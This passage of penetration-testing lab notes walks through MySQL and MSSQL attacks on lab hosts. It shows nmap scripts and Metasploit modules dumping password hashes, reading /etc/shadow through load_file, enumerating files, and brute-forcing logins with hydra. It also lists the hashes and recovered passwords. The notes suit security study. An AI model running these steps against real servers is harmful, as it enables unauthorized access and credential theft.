|           sammy
|       5.8: Do not grant GRANT privileges to non Admin users => PASS       <<<<<<<<<<<<<<<<<<<<<<<<<<===============
|         The following users were found having the GRANT privilege
|           sammy
|       6.2: Disable Load data local => FAIL
|       6.3: Disable old password hashing => FAIL
|       6.4: Safe show database => FAIL
|       6.5: Secure auth => FAIL
|       6.6: Grant tables => FAIL
|       6.7: Skip merge => FAIL
|       6.8: Skip networking => FAIL
|       6.9: Safe user create => FAIL
|       6.10: Skip symbolic links => FAIL
|     
|     Additional information
|       The audit was performed using the db-account: root
|_      The following admin accounts were excluded from the audit: root,debian-sys-maint
MAC Address: 02:42:C0:01:AD:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds
```

<br />

**dump mysql hashes**

```bash
root@attackdefense:~# nmap 192.1.173.3 -sV -p3306 --script=mysql-dump-hashes --script-args="username='root',password=''"Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-07 12:38 UTC
Nmap scan report for target-1 (192.1.173.3)
Host is up (0.000034s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-dump-hashes: 
|   debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
|   filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
|   ultra:*827EC562775DC9CE458689D36687DCED320F34B0
|   guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
|   sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
|   udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
|   sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
MAC Address: 02:42:C0:01:AD:03 (Unknown)

```

<br />

**Gather information from the MS-SQL server**

```bash
root@attackdefense:~# nmap 192.1.173.3 -sV -p3306 --script=mysql-query --script-args="query='select * from books.authors;',username='root',password=''"
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-07 12:46 UTC
Nmap scan report for target-1 (192.1.173.3)
Host is up (0.000036s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-query: 
|   id  first_name  last_name  email                        birthdate   added
|   1   Gregoria    Lowe       gutmann.rebekah@example.net  1982-03-09  1983-01-11 11:25:43
|   2   Ona         Anderson   ethelyn02@example.net        1980-06-02  1972-05-05 07:26:52
|   3   Emile       Lakin      rippin.freda@example.com     1979-04-06  2010-05-30 20:03:07
|   4   Raul        Barton     mschiller@example.com        1976-05-06  1979-02-08 12:32:29
|   5   Sofia       Collier    rodrigo34@example.net        1978-06-09  1991-05-01 10:02:54
|   6   Wellington  Fay        jared98@example.com          2011-08-11  1992-05-27 23:20:20
|   7   Garnet      Braun      hickle.howell@example.net    1990-04-27  2010-04-13 09:48:36
|   8   Alessia     Kuphal     skiles.reggie@example.net    1978-04-06  2014-08-22 21:23:00
|   9   Deven       Carroll    savanah.zulauf@example.net   2007-02-15  1998-02-16 11:45:32
|   10  Issac       Stanton    ozella10@example.net         2013-10-13  1976-12-09 13:18:45
|   
|   Query: select * from books.authors;
|_  User: root
MAC Address: 02:42:C0:01:AD:03 (Unknown)

```

<br />


**check empty password users that can login to mysql with nmap scripts**

```bash
root@attackdefense:~# nmap 192.1.173.3 -sV -p3306 --script=mysql-empty-password
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-07 12:20 UTC
Nmap scan report for target-1 (192.1.173.3)
Host is up (0.000071s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-empty-password: 
|_  root account has empty password
MAC Address: 02:42:C0:01:AD:03 (Unknown)

```

<br />


**login to mysql with default credentials `root:nopassword`**

```bash
root@attackdefense:~# mysql -h 192.1.173.3 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 47
Server version: 5.5.62-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| books              |
| data               |
| mysql              |
| password           |
| performance_schema |
| secret             |
| store              |
| upload             |
| vendors            |
| videos             |
+--------------------+
11 rows in set (0.001 sec)

MySQL [(none)]> use books;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [books]> show tables;
+-----------------+
| Tables_in_books |
+-----------------+
| authors         |
+-----------------+
1 row in set (0.000 sec)

MySQL [books]> select * from authors;
+----+------------+-----------+-----------------------------+------------+---------------------+
| id | first_name | last_name | email                       | birthdate  | added               |
+----+------------+-----------+-----------------------------+------------+---------------------+
|  1 | Gregoria   | Lowe      | gutmann.rebekah@example.net | 1982-03-09 | 1983-01-11 11:25:43 |
|  2 | Ona        | Anderson  | ethelyn02@example.net       | 1980-06-02 | 1972-05-05 07:26:52 |
|  3 | Emile      | Lakin     | rippin.freda@example.com    | 1979-04-06 | 2010-05-30 20:03:07 |
|  4 | Raul       | Barton    | mschiller@example.com       | 1976-05-06 | 1979-02-08 12:32:29 |
|  5 | Sofia      | Collier   | rodrigo34@example.net       | 1978-06-09 | 1991-05-01 10:02:54 |
|  6 | Wellington | Fay       | jared98@example.com         | 2011-08-11 | 1992-05-27 23:20:20 |
|  7 | Garnet     | Braun     | hickle.howell@example.net   | 1990-04-27 | 2010-04-13 09:48:36 |
|  8 | Alessia    | Kuphal    | skiles.reggie@example.net   | 1978-04-06 | 2014-08-22 21:23:00 |
|  9 | Deven      | Carroll   | savanah.zulauf@example.net  | 2007-02-15 | 1998-02-16 11:45:32 |
| 10 | Issac      | Stanton   | ozella10@example.net        | 2013-10-13 | 1976-12-09 13:18:45 |
+----+------------+-----------+-----------------------------+------------+---------------------+
```

<br />

**use metasploit to know writable directories**

```bash
msf5 > use auxiliary/scanner/mysql/mysql_writable_dirs
msf5 auxiliary(scanner/mysql/mysql_writable_dirs) > options

Module options (auxiliary/scanner/mysql/mysql_writable_dirs):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DIR_LIST                    yes       List of directories to test
   FILE_NAME  fZZnyltD         yes       Name of file to write
   PASSWORD                    no        The password for the specified username
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      3306             yes       The target port (TCP)
   THREADS    1                yes       The number of concurrent threads
   USERNAME   root             yes       The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_writable_dirs) > set DIR_LIST  /usr/share/metasploit-framework/data/wordlists/directory.txt
DIR_LIST => /usr/share/metasploit-framework/data/wordlists/directory.txt
msf5 auxiliary(scanner/mysql/mysql_writable_dirs) > setg rhosts 192.1.173.3
rhosts => 192.1.173.3
msf5 auxiliary(scanner/mysql/mysql_writable_dirs) > set verbose false 
verbose => false
msf5 auxiliary(scanner/mysql/mysql_writable_dirs) > run

[!] 192.1.173.3:3306      - For every writable directory found, a file called fZZnyltD with the text test will be written to the directory.
[*] 192.1.173.3:3306      - Login...
[*] 192.1.173.3:3306      - Checking /tmp...
[+] 192.1.173.3:3306      - /tmp is writeable
[*] 192.1.173.3:3306      - Checking /etc/passwd...
[!] 192.1.173.3:3306      - Can't create/write to file '/etc/passwd/fZZnyltD' (Errcode: 20)
[*] 192.1.173.3:3306      - Checking /etc/shadow...
[!] 192.1.173.3:3306      - Can't create/write to file '/etc/shadow/fZZnyltD' (Errcode: 20)
[*] 192.1.173.3:3306      - Checking /root...
[+] 192.1.173.3:3306      - /root is writeable
[*] 192.1.173.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<br />

**dump mysql hashes using metasploit**

```bash
msf5 auxiliary(scanner/mssql/mssql_hashdump) > use auxiliary/scanner/mysql/mysql_hashdump
msf5 auxiliary(scanner/mysql/mysql_hashdump) > options

Module options (auxiliary/scanner/mysql/mysql_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS    192.1.173.3      yes       The target address range or CIDR identifier
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads
   USERNAME                   no        The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_hashdump) > set rhosts 192.1.173.3
rhosts => 192.1.173.3
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_hashdump) > run

[+] 192.1.173.3:3306      - Saving HashString as Loot: root:
[+] 192.1.173.3:3306      - Saving HashString as Loot: root:
[+] 192.1.173.3:3306      - Saving HashString as Loot: root:
[+] 192.1.173.3:3306      - Saving HashString as Loot: root:
[+] 192.1.173.3:3306      - Saving HashString as Loot: debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
[+] 192.1.173.3:3306      - Saving HashString as Loot: root:
[+] 192.1.173.3:3306      - Saving HashString as Loot: filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[+] 192.1.173.3:3306      - Saving HashString as Loot: ultra:*827EC562775DC9CE458689D36687DCED320F34B0
[+] 192.1.173.3:3306      - Saving HashString as Loot: guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
[+] 192.1.173.3:3306      - Saving HashString as Loot: sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
[+] 192.1.173.3:3306      - Saving HashString as Loot: udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
[+] 192.1.173.3:3306      - Saving HashString as Loot: sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
[*] 192.1.173.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<br />

**gather mysql schema using metasploit** 

```bash
msf5 > use auxiliary/scanner/mysql/mysql_schemadump
msf5 auxiliary(scanner/mysql/mysql_schemadump) > options

Module options (auxiliary/scanner/mysql/mysql_schemadump):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DISPLAY_RESULTS  true             yes       Display the Results to the Screen
   PASSWORD                          no        The password for the specified username
   RHOSTS                            yes       The target address range or CIDR identifier
   RPORT            3306             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads
   USERNAME                          no        The username to authenticate as


msf5 auxiliary(scanner/mysql/mysql_schemadump) > set RHOSTS 192.1.173.3
RHOSTS => 192.1.173.3
msf5 auxiliary(scanner/mysql/mysql_schemadump) > options 

Module options (auxiliary/scanner/mysql/mysql_schemadump):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DISPLAY_RESULTS  true             yes       Display the Results to the Screen
   PASSWORD                          no        The password for the specified username
   RHOSTS           192.1.173.3      yes       The target address range or CIDR identifier
   RPORT            3306             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads
   USERNAME                          no        The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_schemadump) > run

[+] 192.1.173.3:3306      - Schema stored in: /root/.msf4/loot/20240107125315_default_192.1.173.3_mysql_schema_874488.txt
[+] 192.1.173.3:3306      - MySQL Server Schema 
 Host: 192.1.173.3 
 Port: 3306 
 ====================

---
- DBName: books
  Tables:
  - TableName: authors
    Columns:
    - ColumnName: id
      ColumnType: int(11)
    - ColumnName: first_name
      ColumnType: varchar(50)
    - ColumnName: last_name
      ColumnType: varchar(50)
    - ColumnName: email
      ColumnType: varchar(100)
    - ColumnName: birthdate
      ColumnType: date
    - ColumnName: added
      ColumnType: timestamp
- DBName: data
  Tables: []
- DBName: password
  Tables: []
- DBName: secret
  Tables: []
- DBName: store
  Tables: []
- DBName: upload
  Tables: []
- DBName: vendors
  Tables: []
- DBName: videos
  Tables: []

[*] 192.1.173.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<br />

**read  sensitive files using metasploit**

```bash
msf5 > use auxiliary/scanner/mysql/mysql_file_enum
msf5 auxiliary(scanner/mysql/mysql_file_enum) > set RHOSTS 192.1.173.3
RHOSTS => 192.1.173.3
msf5 auxiliary(scanner/mysql/mysql_file_enum) > options 

Module options (auxiliary/scanner/mysql/mysql_file_enum):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   DATABASE_NAME  mysql            yes       Name of database to use
   FILE_LIST                       yes       List of directories to enumerate
   PASSWORD                        no        The password for the specified username
   RHOSTS         192.1.173.3      yes       The target address range or CIDR identifier
   RPORT          3306             yes       The target port (TCP)
   TABLE_NAME     cayGvvTA         yes       Name of table to use - Warning, if the table already exists its contents will be corrupted
   THREADS        1                yes       The number of concurrent threads
   USERNAME       root             yes       The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_file_enum) > set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
FILE_LIST => /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
msf5 auxiliary(scanner/mysql/mysql_file_enum) > set PASSWORD ""
PASSWORD => 
msf5 auxiliary(scanner/mysql/mysql_file_enum) > run

[+] 192.1.173.3:3306      - /etc/passwd is a file and exists
[+] 192.1.173.3:3306      - /etc/shadow is a file and exists
[+] 192.1.173.3:3306      - /etc/group is a file and exists
[+] 192.1.173.3:3306      - /etc/mysql/my.cnf is a file and exists
[+] 192.1.173.3:3306      - /etc/hosts is a file and exists
[+] 192.1.173.3:3306      - /etc/hosts.allow is a file and exists
[+] 192.1.173.3:3306      - /etc/hosts.deny is a file and exists
[+] 192.1.173.3:3306      - /etc/issue is a file and exists
[+] 192.1.173.3:3306      - /etc/fstab is a file and exists
[+] 192.1.173.3:3306      - /proc/version is a file and exists
[*] 192.1.173.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<br />


**show system files like `/etc/shadow` with using metasploit**

```bash
root@attackdefense:~# mysql -h 192.1.173.3 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 53
Server version: 5.5.62-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> select load_file("/etc/shadow");
| load_file("/etc/shadow")                                                                                                                                                                                                                                      
| root:$6$eoOI5IAu$S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/:17861:0:99999:7:::
daemon:*:17850:0:99999:7:::
bin:*:17850:0:99999:7:::
sys:*:17850:0:99999:7:::
sync:*:17850:0:99999:7:::
games:*:17850:0:99999:7:::
man:*:17850:0:99999:7:::
lp:*:17850:0:99999:7:::
mail:*:17850:0:99999:7:::
news:*:17850:0:99999:7:::
uucp:*:17850:0:99999:7:::
proxy:*:17850:0:99999:7:::
www-data:*:17850:0:99999:7:::
backup:*:17850:0:99999:7:::
list:*:17850:0:99999:7:::
irc:*:17850:0:99999:7:::
gnats:*:17850:0:99999:7:::
nobody:*:17850:0:99999:7:::
libuuid:!:17850:0:99999:7:::
syslog:*:17850:0:99999:7:::
mysql:!:17857:0:99999:7:::
dbadmin:$6$vZ3Fv3x6$qdB/lOAC1EtlKEC2H8h5f7t33j65WDbHHV50jloFkxFBeQC8QkdbQKpHEp/BkVMQD2C2AFPkYW3.W7jMlMbl5.:17861:0:99999:7:::

1 row in set (0.001 sec)
```

<br />

**mysql bruteforce users and passwords** 

```bash
msf5 > use auxiliary/scanner/mysql/mysql_login
msf5 auxiliary(scanner/mysql/mysql_login) > options

Module options (auxiliary/scanner/mysql/mysql_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             3306             yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/mysql/mysql_login) > set RHOSTS 192.40.67.3
RHOSTS => 192.40.67.3
msf5 auxiliary(scanner/mysql/mysql_login) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE  /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/mysql/mysql_login) > set VERBOSE false 
VERBOSE => false
msf5 auxiliary(scanner/mysql/mysql_login) > run

[+] 192.40.67.3:3306      - 192.40.67.3:3306 - Success: 'root:catalina'
[*] 192.40.67.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<br />

**bruteforce mysql users and passwords with hydra**

```bash
root@attackdefense:~# hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.40.67.3 mysql
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-07 13:27:26
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking mysql://192.40.67.3:3306/
[3306][mysql] host: 192.40.67.3   login: root   password: catalina         <<<<<<<<=====================
1 of 1 target successfully completed, 1 valid password found
```


<br />

### 2-MSSQL


```bash
root@attackdefense:~# nmap 10.4.28.18 -p1433 -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-07 19:04 IST
Nmap scan report for 10.4.28.18
Host is up (0.0078s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000


root@attackdefense:~# locate *.nse | grep -i "ms-sql"
/usr/share/nmap/scripts/broadcast-ms-sql-discover.nse
/usr/share/nmap/scripts/ms-sql-brute.nse
/usr/share/nmap/scripts/ms-sql-config.nse
/usr/share/nmap/scripts/ms-sql-dac.nse
/usr/share/nmap/scripts/ms-sql-dump-hashes.nse
/usr/share/nmap/scripts/ms-sql-empty-password.nse
/usr/share/nmap/scripts/ms-sql-hasdbaccess.nse
/usr/share/nmap/scripts/ms-sql-info.nse
/usr/share/nmap/scripts/ms-sql-ntlm-info.nse
/usr/share/nmap/scripts/ms-sql-query.nse
/usr/share/nmap/scripts/ms-sql-tables.nse
/usr/share/nmap/scripts/ms-sql-xp-cmdshell.nse

```

<br />

**Gather information from the MS-SQL server**

```bash
root@attackdefense:~# nmap 10.4.28.18 -p1433 --script=ms-sql-info.nse
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-07 19:07 IST
Nmap scan report for 10.4.28.18
Host is up (0.0083s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s

Host script results:
| ms-sql-info: 
|   10.4.28.18:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433


```

<br />


**Gather information from the MS-SQL server with NTLM**

 NMAP script will enumerate information from remote Microsoft SQL services with NTLM authentication enabled.

Sending an MS-TDS NTLM authentication  request with an invalid domain and null credentials will cause the  remote service to respond with an NTLMSSP message disclosing information to include NetBIOS, DNS, and OS build version.

```bash
root@attackdefense:~# nmap 10.4.28.18 -p1433 --script=ms-sql-ntlm-info.nse
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-07 19:08 IST
Nmap scan report for 10.4.28.18
Host is up (0.0081s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-ntlm-info: 
|   Target_Name: MSSQL-SERVER
|   NetBIOS_Domain_Name: MSSQL-SERVER
|   NetBIOS_Computer_Name: MSSQL-SERVER
|   DNS_Domain_Name: MSSQL-Server
|   DNS_Computer_Name: MSSQL-Server
|_  Product_Version: 10.0.14393


```

<br />

**identify mssql empty password users**

```bash
root@attackdefense:~# nmap 10.4.28.18 -p1433 --script=ms-sql-empty-password
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-07 19:35 IST
Nmap scan report for 10.4.28.18
Host is up (0.0081s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-empty-password: 
|   [10.4.28.18:1433]
|_    sa:<empty> => Login Success

```

<br />

**bruteforce mssql users and passwords with nmap scripts**

```bash
root@attackdefense:~# nmap 10.4.28.18 -p1433 --script=ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlists/100-common-passwords.txt 
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-07 19:34 IST
Nmap scan report for 10.4.28.18
Host is up (0.0080s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-brute: 
|   [10.4.28.18:1433]
|     Credentials found:
|       dbadmin:bubbles1 => Login Success
|       auditor:jasmine1 => Login Success
|_      admin:anamaria => Login Success


```

<br />

**run mssql query with nmap** 

```bash
root@attackdefense:~# nmap 10.4.28.18 -p1433 --script=ms-sql-query --script-args mssql.username=sa,mssql.password=,ms-sql-query.query="sp_databases"
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-07 19:45 IST
Nmap scan report for 10.4.28.18
Host is up (0.0080s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-query: 
|   [10.4.28.18:1433]
|     Query: sp_databases
|       DATABASE_NAME	DATABASE_SIZE	REMARKS
|       =============	=============	=======
|       master	6592	Null
|       model	16384	Null
|       msdb	16128	Null
|_      tempdb	16384	Null


root@attackdefense:~# nmap 10.4.28.18 -p1433 --script=ms-sql-query --script-args mssql.username=sa,mssql.password=,ms-sql-query.query="select * from master.sys.sysusers;"
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-07 19:48 IST
Nmap scan report for 10.4.28.18
Host is up (0.0080s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-query: 
|   [10.4.28.18:1433]
|     Query: select * from master.sys.sysusers;
|       uid	status	name	sid	roles	createdate	updatedate	altuid	password	gid	environ	hasdbaccess	islogin	isntname	isntgroup	isntuser	issqluser	isaliased	issqlrole	isapprole
|       ===	======	====	===	=====	==========	==========	======	========	===	=======	===========	=======	========	=========	========	=========	=========	=========	=========
|       0	0	public	0x010500000000000904000000fb01993b66f9c34dbd9b2735f4cc0c93	Null	2003-04-08T03:40:19	2009-04-13T07:29:10	1	Null	0	Null	0	00	0	0	0	0	1	0
|       1	0	dbo	0x01	Null	2003-04-08T03:40:19	2003-04-08T03:40:19	Null	Null	0	Null	1	1	0	0	0	1	0	0	0
|       2	0	guest	0x00	Null	2003-04-08T03:40:19	2003-04-08T03:40:19	Null	Null	0	Null	1	1	0	0	0	1	0	0	0
|       3	0	INFORMATION_SCHEMA	Null	Null	2009-04-13T07:29:06	2009-04-13T07:29:06	Null	Null	0	Null	0	1	0	0	0	1	00	0
|       4	0	sys	Null	Null	2009-04-13T07:29:06	2009-04-13T07:29:06	Null	Null	0	Null	0	1	0	0	0	1	0	0	0
|       5	0	##MS_PolicyEventProcessingLogin##	0x5681cce7a1f1ff41b2f95ced7d792e70	Null	2019-09-24T08:51:53	2019-09-24T08:51:53	Null	Null	0	Null	11	0	0	0	1	0	0	0
|       6	0	##MS_AgentSigningCertificate##	0x0106000000000009010000004c1967c27feb2ead332894c5a0779eae202847c8	Null	2019-09-24T08:51:58	2019-09-24T08:51:58	Null	Null	0	Null	1	1	0	0	0	0	0	0	0
|       7	0	admin	0x4a84b80919150844b881d1c2fead7f03	Null	2021-01-20T02:48:23	2021-01-20T02:48:23	Null	Null	0	Null	1	1	0	0	01	0	0	0
|       16384	0	db_owner	0x01050000000000090400000000000000000000000000000000400000	Null	2003-04-08T03:40:19	2009-04-13T07:29:10	1	Null	16384	Null	00	0	0	0	0	0	1	0
|       16385	0	db_accessadmin	0x01050000000000090400000000000000000000000000000001400000	Null	2003-04-08T03:40:19	2009-04-13T07:29:10	1	Null	16385	Null	00	0	0	0	0	0	1	0
|       16386	0	db_securityadmin	0x01050000000000090400000000000000000000000000000002400000	Null	2003-04-08T03:40:19	2009-04-13T07:29:10	1	Null	16386Null	0	0	0	0	0	0	0	1	0
|       16387	0	db_ddladmin	0x01050000000000090400000000000000000000000000000003400000	Null	2003-04-08T03:40:19	2009-04-13T07:29:10	1	Null	16387	Null	00	0	0	0	0	0	1	0
|       16389	0	db_backupoperator	0x01050000000000090400000000000000000000000000000005400000	Null	2003-04-08T03:40:19	2009-04-13T07:29:10	1	Null	16389Null	0	0	0	0	0	0	0	1	0
|       16390	0	db_datareader	0x01050000000000090400000000000000000000000000000006400000	Null	2003-04-08T03:40:19	2009-04-13T07:29:10	1	Null	16390	Null	00	0	0	0	0	0	1	0
|       16391	0	db_datawriter	0x01050000000000090400000000000000000000000000000007400000	Null	2003-04-08T03:40:19	2009-04-13T07:29:10	1	Null	16391	Null	00	0	0	0	0	0	1	0
|       16392	0	db_denydatareader	0x01050000000000090400000000000000000000000000000008400000	Null	2003-04-08T03:40:19	2009-04-13T07:29:10	1	Null	16392Null	0	0	0	0	0	0	0	1	0
|_      16393	0	db_denydatawriter	0x01050000000000090400000000000000000000000000000009400000	Null	2003-04-08T03:40:19	2009-04-13T07:29:10	1	Null	16393Null	0	0	0	0	0	0	0	1	0

Nmap done: 1 IP address (1 host up) scanned in 0.41 seconds


root@attackdefense:~# nmap 10.4.26.14 -p1433 --script=ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2024-01-07 20:21 IST
Nmap scan report for 10.4.26.14
Host is up (0.0081s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-query: 
|   [10.4.26.14:1433]
|     Query: SELECT * FROM master..syslogins
|       sid	status	createdate	updatedate	accdate	totcpu	totio	spacelimit	timelimit	resultlimit	name	dbname	password	language	denylogin	hasaccess	isntname	isntgroup	isntuser	sysadmin	securityadmin	serveradmin	setupadmin	processadmin	diskadmin	dbcreator	bulkadmin	loginname
|       ===	======	==========	==========	=======	======	=====	==========	=========	===========	====	======	========	========	=========	=========	========	=========	========	========	=============	===========	==========	============	=========	=========	=========	=========
|       0x01	9	2003-04-08T03:40:35	2021-01-21T04:50:57	2003-04-08T03:40:35	0	0	0	0	0	sa	master	Null	us_english	0	1	00	0	1	0	0	0	0	0	0	0	sa
|       0x0106000000000009010000001e501960278b270fd34191426bf0193fc0b4e786	10	2019-09-24T08:51:16	2019-09-24T08:51:16	2019-09-24T08:51:16	0	0	0	0	0##MS_SQLResourceSigningCertificate##	master	Null	Null	0	0	0	0	0	0	0	0	0	0	0	0	0	##MS_SQLResourceSigningCertificate##
|       0x010600000000000901000000ed1b6318a0592d96ce6d143a9184be0f758287be	10	2019-09-24T08:51:16	2019-09-24T08:51:16	2019-09-24T08:51:16	0	0	0	0	0##MS_SQLReplicationSigningCertificate##	master	Null	Null	0	0	0	0	0	0	0	0	0	0	0	0	0	##MS_SQLReplicationSigningCertificate##
|       0x010600000000000901000000fb236d83a8dc8e7de549c56382c1a25f85ea3704	10	2019-09-24T08:51:16	2019-09-24T08:51:16	2019-09-24T08:51:16	0	0	0	0	0##MS_SQLAuthenticatorCertificate##	master	Null	Null	0	0	0	0	0	0	0	0	0	0	0	0	0	##MS_SQLAuthenticatorCertificate##
|       0x010600000000000901000000bb1b6130e13e5b67b7bd49ce40730a5b67188088	10	2019-09-24T08:51:16	2019-09-24T08:51:16	2019-09-24T08:51:16	0	0	0	0	0##MS_PolicySigningCertificate##	master	Null	Null	0	0	0	0	0	0	0	0	0	0	0	0	0	##MS_PolicySigningCertificate##
|       0x010600000000000901000000dcfdce5b748d5515e793fc84e1eccbe22a187f7a	10	2019-09-24T08:51:16	2019-09-24T08:51:16	2019-09-24T08:51:16	0	0	0	0	0##MS_SmoExtendedSigningCertificate##	master	Null	Null	0	0	0	0	0	0	0	0	0	0	0	0	0	##MS_SmoExtendedSigningCertificate##
|       0x5681cce7a1f1ff41b2f95ced7d792e70	9	2019-09-24T08:51:53	2021-01-20T01:47:08	2019-09-24T08:51:53	0	0	0	0	0	##MS_PolicyEventProcessingLogin##	master	Null	us_english	0	1	0	0	0	0	0	0	0	0	0	0	0	##MS_PolicyEventProcessingLogin##
|       0x27578d8516843e4094efa2ceed085c82	9	2019-09-24T08:51:53	2021-01-20T01:47:08	2019-09-24T08:51:53	0	0	0	0	0	##MS_PolicyTsqlExecutionLogin##	master	Null	us_english	0	1	0	0	0	0	0	0	0	0	0	0	0	##MS_PolicyTsqlExecutionLogin##
